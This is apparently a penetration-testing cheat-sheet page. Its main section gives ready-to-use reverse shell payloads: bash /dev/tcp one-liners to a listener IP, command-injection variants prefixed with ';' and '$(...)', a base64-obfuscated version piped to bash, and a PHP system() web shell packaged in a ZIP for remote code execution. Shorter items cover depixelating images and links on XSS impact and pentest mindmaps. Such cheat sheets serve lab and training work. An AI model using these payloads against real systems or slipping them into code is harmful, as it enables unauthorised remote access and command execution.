 ### Get Reverse Shell:

```bash
;$(bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1');

bash -i >& /dev/tcp/10.10.16.35/1234 0>&1 (payload)
test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= |
base64 -d | bash;    (enocoded payload)

test;echo 'bash -i >& /dev/tcp/10.10.16.35/9001 0>&1' | bash;
```

### Depixelate images

```bash
pdfimages <pdf-file> <output-file>
python3 depix.py -p <pixelized-image>.ppm -s <reference-image>
```

### Reverse shell using ZIP file:

{% file src=".gitbook/assets/rce.zip" %}

the code in this:

```php
<?php echo system("echo 'bash -i >& /dev/tcp/10.10.16.35/9001 0>&1' | bash;") ?>bash
```

#### Opposite to Keyhacks -> nokeyhacks:

{% embed url="https://gitlab.com/dee-see/notkeyhacks" %}

![Screenshot\_2021-03-16-16-34-20-695\_com google android youtube](https://user-images.githubusercontent.com/48483027/111305580-284b7580-867d-11eb-8704-dee84bb789e9.jpg)

#### Increase XSS vulnerability impact

* [https://hacklido.com/blog/320-how-i-got-a-2000-bounty-with-rxss](https://hacklido.com/blog/320-how-i-got-a-2000-bounty-with-rxss)

#### Mindmaps for Penetration Testing

<figure><img src="https://user-images.githubusercontent.com/48483027/111863466-c68f5200-8981-11eb-9569-38fb5eacf8c9.png" alt=""><figcaption></figcaption></figure>

![assessment-mindset](https://user-images.githubusercontent.com/48483027/111871365-8ba41300-89af-11eb-944f-287a74f48a7f.png)
